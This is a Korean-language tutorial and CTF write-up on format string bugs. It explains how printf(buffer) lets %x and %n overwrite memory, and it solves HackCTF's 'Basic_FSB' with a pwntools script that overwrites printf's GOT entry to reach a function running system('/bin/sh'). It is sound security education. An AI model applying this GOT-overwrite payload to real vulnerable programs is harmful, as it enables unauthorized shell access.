

# 2. FSB

- 목차

# FSB(Format String Bug)

- **Format String Bug** 는 format을 사용하는 printf()와 같은 함수를 사용할 때 체크되지 않은 유저 입력(unchecked user input, [Improper input validation - Wikipedia](https://en.wikipedia.org/wiki/Improper_input_validation))에 의해 발생하는 취약점이다.
- FSB를 활용한 전형적인 공격방법은 프로세스의 IP(Instruction Pointer)를 임의로 조작하는 것이다. 예를 들어, 라이브러리 함수의 주소를 덮어쓰거나 쉘코드가 저장된 주소로 프로세스 스택의 return address를 조작하는 방법 등이 있다. 이 때, **%x** 를 이용하여 바이트 수를 계산하고, **%n** 을 이용하여 overwrite 한다.
- FSB는 프로그래머가 어떠한 string 값을 출력하고자 할 때 흔히 발생한다. 프로그래머가 아래와 같이 의도하고 코딩을 한다고 가정하자.
    
    > printf(”%s”, buffer);
    > 
- 이 때, 프로그래머가 실수로 아래와 같이 코딩을 한다.
    
    > printf(buffer);
    > 
- 이런 경우 아래 순서를 따라 프로그램은 작동한다.
    1. buffer를 format string 으로 보고, buffer 문자열 안에 format이 있는지 파싱한 뒤 실행한다.
    2. buffer를 그냥 출력한다. (프로그래머의 의도대로)
- 따라서, 프로그래머가 신중을 기하지 않는 경우 버그의 유무를 파악하지 못할 가능성이 있다.

## Practice (w/ “Basic_fsb” by HackCTF, [HackCTF (j0n9hyun.xyz)](https://ctf.j0n9hyun.xyz/challenges#Basic_FSB))



- 바이너리 안의 함수들 중 main, vuln, flag를 각각 확인해보도록 한다.

### main()


- main 에서는 다음 과정을 수행한다.
    - setvbuf( **0x804a044**, 0, 2, 0) );
        - 아래 vuln() 함수에서 fgets 의 인자로 **0x804a040**을 넣고, 보통 stdin을 넣는 위치이기 때문에 **0x804a044** 는 **stdout**이라 추론할 수 있다.
    - vuln();

### vuln()


- vuln() 에서는 다음의 과정을 수행한다.
    - **printf( *0x80486b0 );**
        - 0x80486b0 의 내용
            
            
            
    - **fgets( &(%ebp - 0x808), 0x400, 0x804a040);**
        - main() 함수에서 적은대로 **0x804a040**은 **stdin**이라 추론할 수 있다.
    - **snprintf( &(%ebp - 0x408), 0x400, &(%ebp-0x808) );**
        - 최대 **400byte** 까지 **%ebp-0x408**에 저장한다.
    - **printf( &(%ebp-0x408) );**

### Flag()

- 사실 main(), vuln() 두 함수만으로도 FSB를 일으키는 것은 가능하다.
- 이 함수는 Exploit을 조금 쉽게 행할 수 있도록 shellcode를 제공하는 것으로 보인다.


- flag() 에서는 다음의 과정을 수행한다.
    - puts( **0x80486bc** )
        - **0x80486bc** 의 내용
            
            
            
    - puts( **0x80486ec** )
        - **0x80486ec** 의 내용
            
            
            
    - system( **0x8048718** )
        - **0x8048718** 의 내용은 아래와 같다.
            
            
            
        - 따라서, **system( “/bin/sh” )**로써 flag()는 쉘코드로 기능함을 알 수 있다..

### Exploit

- Exploit Code 는 아래의 흐름으로 구성할 수 있다.
    - printf()에 대하여 GOT Overwrite 기법을 활용할 수 있다.
    - 아래의 순서대로 입력값을 정한다.
        - Address of printf@got
            - printf@got 값 : **0x804a00c**
                
                
                
        - %[$N$]x
            - [$N$] 은 임의의 $N$바이트
            - 본 문제에서는 flag() 의 주소값에 대하여 값을 정한다.
                - printf()의 got 주소는 4바이트 이므로, flag() 함수의 주소에서 4바이트 만큼 뺀 값이 $N$ 이 된다.
                - Address of flag() : **0x80485b4**
                    
                    
                    
        - %n

- python의 pwntool을 이용하여 코드를 아래와 같이 작성할 수 있다.
    
    ```jsx
    from pwn import *
    
    p = process("./basic_fsb")
    
    print_got_address = 0x0804a00c
    flag_address = 0x080485b4
    
    diff = flag_address - 4
    
    payload  = p32(print_got_address)
    payload += bytes('%' + str(diff) + 'x', 'utf-8')
    payload += bytes('%n', 'utf-8')
    
    p.recv(1024)
    p.sendline(payload)
    p.interactive()
    ```
    
    
    

# Reference.

- MOV, LEA 차이
    
    [[MOV] VS [LEA] 차이점 (tistory.com)](https://johyungen.tistory.com/430)
    
- 어셈블리어 ds:[address] 의미
    
    [[꿈머] 리버싱(Reverse Engineering) - [실습] 배열 분석 : 네이버 블로그 (naver.com)](https://m.blog.naver.com/PostView.naver?isHttpsRedirect=true&blogId=shackerz&logNo=220464261071)
    
- Format String Bug(Uncontrolled Format String)
    
    [Uncontrolled format string - Wikipedia](https://en.wikipedia.org/wiki/Uncontrolled_format_string)
